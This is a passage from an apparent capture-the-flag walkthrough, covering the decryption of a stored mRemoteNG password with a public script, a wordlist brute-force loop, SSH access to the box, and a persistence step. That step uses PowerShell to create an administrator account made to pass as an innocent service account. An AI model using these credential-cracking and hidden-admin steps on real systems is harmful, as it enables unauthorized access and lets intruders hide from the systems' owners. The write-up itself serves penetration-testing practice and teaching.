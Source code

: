 -   {{< figure src="/ox-hugo/2025-04-29-172643_.png" >}}

We are lucky as there is a decryption script by [haseebT](https://github.com/haseebT/mRemoteNG-Decrypt) for this specific task so, let's download the script.

```shell
wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
```

Now all we need to do is try to decrypt the password hash

```shell
python3 mremoteng_decrypt.py -s "[HASH]"

python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig=="
```

As we can see we get a cleartext password back.

-   {{< figure src="/ox-hugo/2025-04-29-173243_.png" >}}

+Note+: It's also possible to use a simple for-loop if we want to attempt to bruteforce the hash in the event the default encryption value is not being used, but **This is not required for this box**

```shell
for password in $(cat /usr/share/wordlists/Rockyou.txt);do echo $password; python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" -p $password 2>/dev/null;done
```

Lets verify if the password works.

-   {{< figure src="/ox-hugo/2025-04-29-173419_.png" >}}

&amp; we have a winner.

Let see if we can access the host VIA SSH now&#x2026;and we can.

-   {{< figure src="/ox-hugo/2025-04-29-173556_.png" >}}

Lets get our root flag.

-   {{< figure src="/ox-hugo/2025-04-29-173624_.png" >}}


## 4. Persistence: {#4-dot-persistence}


### Let's create an Administrator User So We Can Easily Get Back In: {#let-s-create-an-administrator-user-so-we-can-easily-get-back-in}

We can set it up as an innocent service account and use an existing program like mremoteng to make it appear normal. We will then add it to the "Administrators" group and access the host by SSH as the service is setup to accept passwords for login.

```powershell
New-LocalUser -Name "svc_mremoteng" -Password (ConvertTo-SecureString "bl00dst1ll3r!" -AsPlainText -Force) -FullName "svc_mremoteng" -Description "Service Account"

Add-LocalGroupMember -Group "Administrators" -Member "svc_mremoteng"
```
